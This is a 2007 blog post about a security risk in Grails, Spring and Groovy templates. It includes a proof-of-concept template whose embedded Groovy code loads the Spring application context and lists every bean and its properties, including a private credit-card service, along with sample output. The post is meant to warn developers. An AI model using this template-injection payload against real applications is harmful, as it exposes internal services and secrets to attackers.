 = Grails, Spring and templates security issue example
Cédric Champeau
2007-08-02
:jbake-type: post
:jbake-tags: grails, groovy, security, spring
:jbake-status: published
:source-highlighter: prettify
:id: grails_spring_and_templates_security

In my https://www.jroller.com/melix/entry/replacing_velocity_with_groovy_jsmarty[previous post], I was thinking about using Groovy SimpleTemplateEngine as a replacement for Velocity. The main idea was to be able to create arbitrary functions for use in the template without having to rebuild my application (and expose a utility class). I’ve been told about taking a look at https://freemarker.org[_FreeMarker_], but the problem is quite the same : some operations may not be written by a web designer. I’ll take a simple example : for a customer, we needed to be able to take a simple string, and convert it in an URL encoded string. To do that, I had to expose and utility tool which was able to do URL encoding, and rebuild and application. As far as I have seen, FreeMarker functions do not allow that kind of manipulation either (I _may_ be wrong, feel free to correct me).

[[]]
Security issue
--------------

However, the goal of this post is to show you why mixing code with templates is generally a bad idea, however powerful the technique may be. As best example, I’ll show you a major security issue with using both _Spring_ and _Groovy._ I’ve chosen Spring because most of my applications use this framework, and I’m quite confident yours too.

First, we’ll write a simple service, which should never be exposed to the end user. Its goal is to retrieve my list of credit card numbers, in order to be able to choose which one I’ll use to buy my PS3 system. +

[source]
----
package com.example;

public class MyPrivateService {
    private String[] theCreditCardNumbers;

    public String[] getCreditCardNumbers() {
        return theCreditCardNumbers;
    }

    public void setCreditCardNumbers(String[] someCreditCardNumbers) {
        theCreditCardNumbers = someCreditCardNumbers;
    }
}

----


And the following Spring configuration :

[source]
----
        
  
 
        

----


Here’s a sample Groovy script that shows you how this could be used in your application :

[source]
----
import org.springframework.beans.factory.BeanFactory
import org.springframework.beans.factory.xml.XmlBeanFactory
import org.springframework.core.io.ClassPathResource


// setup Spring Application Context
def beanfactory = new XmlBeanFactory(new ClassPathResource("com/example/applicationContext.xml"))

// print credit card numbers
def creditCardService = beanfactory.getBean("creditCardService")

creditCardService.creditCardNumbers.each {
 println it;
}

----


which outputs :

[source]
----
1114-554112-01115
1151-45454-454490

----


Imagine my service is for pure internal usage, and that it must NEVER EVER be exposed to the public. However, in some other part of your web application, there’s a front end page which may be customized (themed) thanks to the Groovy template engine. This allows the customer to create his own theme, granted he writes a good looking HTML page. The user could write something as simple as :

[source]
----
Hello, M. ${user.name} !

----


You may think that your system is secure, because you only exposed the _User_ bean to your template :

[source]
----
import groovy.text.SimpleTemplateEngine

class ProofOfConceptController {

 def index = {
  def template = '''
   <%  def content = new StringBuffer();
    def beanfactory = new org.springframework.beans.factory.xml.XmlBeanFactory(
     new org.springframework.core.io.FileSystemResource("spring/resources.xml"))
    beanfactory.beanDefinitionNames.each {
     content << "Bean named $it defined in application context";
     content << ""
     def bean = beanfactory.getBean(it)
     bean.properties.each {
      content << "$it"
     }
     content << ""
    }
   %>
            $content
  ''';
  def binding = ["user" : "cedric"]
  def engine = new SimpleTemplateEngine()
  ["rendered" : engine.createTemplate(template).make(binding)]
 }
}

----


Here’s the output :

[source]
----
Bean named creditCardService defined in application context

    * metaClass=org.codehaus.groovy.grails.commons.metaclass.ExpandoMetaClass@ea7776[class com.example.CreditCardService]
    * transactional=true
    * creditCardNumbers=[Ljava.lang.String;@4e94a4
    * class=class com.example.CreditCardService

----


Using this Grails controller, the user will be able to browse all beans defined within the traditional ``resources.xml'' Grails file !

[[]]
How does it work ?
------------------

This proof-of-concept assumes that the user knowns about the underlying technology : Grails. Using this, you can grab the user defined application context (resources.xml) in order to list all beans. With the previous template, the hacker could find out interesting beans and properties. Now he should just adapt the template to read the _creditCardService_ property named _creditCardNumbers_… Well, I must admit this is rather tricky : the hacker has to know about the Grails internals, but sure this example could be adapted to other web applications. Spring provides a useful but risky class called _WebApplicationContextUtils_ which allows, given a session, retrieving the application context. Therefore if the session (that’s the tough part) is avaible *to the template*, one could hack the system. Fortunately, it is unlikely that the programmer makes the session available to the template, and we must encourage not to do so.

[[]]
Conclusion
----------

I’ve just showed you how one could use Groovy templates in order to hack a system or steal information. The problem resides in the mixed environment where the hacker has access to the same static utility methods as the programmer, in the same JVM. Therefore, if you cannot isolate the template engine from the rest of the system (I wonder how it could be done), you must really be careful about what you do…
